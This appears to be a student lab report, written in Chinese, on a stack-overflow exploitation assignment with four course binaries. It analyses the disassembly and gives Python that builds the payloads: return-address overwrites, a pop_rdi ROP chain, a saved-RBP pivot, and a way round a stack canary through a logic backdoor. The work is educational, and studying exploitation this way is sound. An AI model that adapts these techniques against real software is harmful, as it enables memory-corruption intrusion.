




# 栈溢出攻击实验

## 题目解决思路


### Problem 1: 
- **分析**：首先，通过分析反汇编代码，我们可以发现漏洞位于地址为0x401232的func函数中
```c
401246: lea    -0x8(%rbp),%rax
401250: call   4010b0 <strcpy@plt>
```
程序调用了strcpy函数将用户输入的字符串复制到栈上的缓冲区。而strcpy函数没有边界检查机制，它会一直复制直到遇到字符串结束符
而从指令lea -0x8(%rbp),%rax可以看出，局部变量（缓冲区）的起始地址位于rbp-0x8，也就是说超过8个字节就会发生溢出。
因此，为了覆盖返回地址，我们需要填充的字节数为8+8=16个字节。因此我们需要先写入16个任意字符作为填充，然后写入我们想要跳转的目标地址。
继续查看反汇编，可以发现func1函数是输出正确结果的函数，其入口地址为0x401216
因此，我们构造如下python代码，先用16个A进行填充，然后写入目标地址0x401216
- **解决方案**：
```c
import struct
p=b'A'*16
aa=struct.pack('<Q',0x401216)
payload=p+aa

with open("ans1.txt", "wb") as f:
    f.write(payload)
```
- **结果**：

### Problem 2:
- **分析**：观察func，发现缓冲区依然起始于rbp-0x8，大小仅为8字节，但是，memcpy复制了56字节的数据
```c
4012a8:       ba 38 00 00 00          mov    $0x38,%edx
```
因此一定会发生溢出
我们首先计算偏移量=8+8=16字节
接着阅读汇编，可以发现func2可以跳转到我们期望的路线
```c
  401222:       89 7d fc                mov    %edi,-0x4(%rbp)
  401225:       81 7d fc f8 03 00 00    cmpl   $0x3f8,-0x4(%rbp)
  40122c:       74 1e                   je     40124c <func2+0x36>
```
上方汇编代码中可以看到，我们要让参数edi等于0x3f8才能跳转，因此，在跳转到func2之前，我们要先利用代码把0x3f8放入rdi寄存器中
接着我们在反汇编中能够找到如下入口地址为0x4012c7的函数pop_rdi，它能够将栈顶数据弹出放入rdi中
```c
00000000004012bb <pop_rdi>:
  4012c7:       5f                      pop    %rdi
  4012c8:       c3                      ret

```
因此我们现在需要先用16字节填充，然后用pop_rdi的地址覆盖返回地址，再放入参数值0x3f8，然后覆盖为func2的地址，就能得到正确结果
- **解决方案**：
```c
import struct

p=b'A'*16
aa=struct.pack('<Q',0x4012c7)
bb=struct.pack('<Q',0x3f8)
func2=struct.pack('<Q',0x401216)

payload=p+aa+bb+func2
with open("ans2.txt","wb") as f:
    f.write(payload)

```
- **结果**：

### Problem 3: 
- **分析**：首先在func中，缓冲区的起始地址在rbp-0x20位置，也就是总共有32字节，而后续复制了0x40，也就是64个字节，溢出了32字节
再看位于0x401216的func1，它会检查参数rdi是否等于0x72，如果相等，就能输出我们期望的结果，但是，仔细阅读反汇编后，会发现这与problem2中有辅助函数pop_rdi不同，problem3很难去修改rdi寄存器的值，因此这个方法可能行不通。
然后考虑一个直接绕过func1的参数检查的方法，也就是想办法直接跳转到func1中打印成功信息的位置。
通过反汇编我们可以看到，我们想跳转到的位置为0x122b，因为这个位置开始构造我们的期望字符串。因此，我们要将返回地址覆盖为0x40122b
但是，可以发现直接跳转到这个位置有隐患，因为会跳过func1开头栈帧的建立过程，而且func1的后续代码要使用rbp
```c
40123f: mov %rax,-0x40(%rbp)  ; 将字符串片段写入 rbp - 0x40
```
因此我们跳转时rbp必须指向一个合适的位置
接着我们可以发现，在func函数返回时，执行了leave指令，这等价于
```c
mov %rsp,%rbp
pop %rbp
```
所以我们可以利用这一点来控制rbp。
因此，思路就清晰了，我们需要在payload中覆盖栈上的Saved RBP位置，然后当pop %rbp执行的时候，我们覆盖的值就会被加载到rbp中，这里，我们随便选择一个可读写的区域即可，我选择了0x403610

最终的payload就由以下三部分组成
第一部分是32字节的缓冲区，第二部分为0x403610，用于加载到rbp，第三部分为输出字符串的位置0x40122b
- **解决方案**：
```c
import struct
p=b'A'*32

f=struct.pack('<Q',0x403610)

target=struct.pack('<Q',0x40122b)

payload=p+f+target

with open("ans3.txt", "wb") as f:
    f.write(payload)
```
- **结果**：

### Problem 4: 
- **分析**：
**canary的保护机制**是编译器在函数启动时，会在当前栈帧的返回地址和局部变量之间插入一个随机生成的数值，由于栈溢出通常是从低地址向高地址覆盖，因此攻击者如果想要覆盖位于高地址的返回地址，就必须先覆盖掉位于中间的Canary值，而函数在执行ret返回指令之前，会检查栈上的 Canary 值是否被修改，如果没有修改，则说明没有发生溢出，程序正常返回。如果被修改，程序就会终止程序，防止被攻击
**在汇编代码中的体现**为在函数开头部分，程序会读取随机生成的Canary值，并将其放入栈中
```c
136c:       64 48 8b 04 25 28 00    mov    %fs:0x28,%rax
1373:       00 00 
1375:       48 89 45 f8             mov    %rax,-0x8(%rbp)
```
在func函数即将返回的末尾部分，程序会取出栈上的值与原始值对比
```c
140a:       48 8b 45 f8             mov    -0x8(%rbp),%rax
140e:       64 48 2b 04 25 28 00    sub    %fs:0x28,%rax
1415:       00 00 
1417:       74 05                   je     141e <func+0xc1>
1419:       e8 b2 fc ff ff          call   10d0 <__stack_chk_fail@plt>
```
如果相同就正常退出，不同就调用__stack_chk_fail@plt终止程序
- **解题思路**
在problem4中,通过反汇编代码可以发现，本题使用了Canary保护，但是继续深入研究汇编可以发现，虽然有栈溢出保护，但是程序逻辑存在后门。
在func函数中，代码会检查用户输入的数字是否为0xffffffff，也就是-1.然后如果输入-1，程序就会直接调用func1并执行exit，从而直接绕过了函数末尾的Canary检查。这意味着攻击者不需要管Canary，只需要走正常的逻辑分支即可
- **解决方案**：前面两次询问输入任意字符串即可，后面询问输入-1
- **结果**：

## 思考与总结
通过亲自对四个不同难度等级的程序进行漏洞利用，我不仅加强了对抽象的“栈帧”等知识点的认识，更深刻理解了计算机系统的底层运行机制，在此次实验之前我对栈的理解比较浅显，而这次实验直接让我利用栈溢出进行攻击以及想办法绕过金丝雀，让我成功的从理论走向实践，深刻理解了栈的运行规律，受益匪浅。


## 参考资料
深入理解计算机系统 (Randal E. Bryant, David R. O’Hallaron)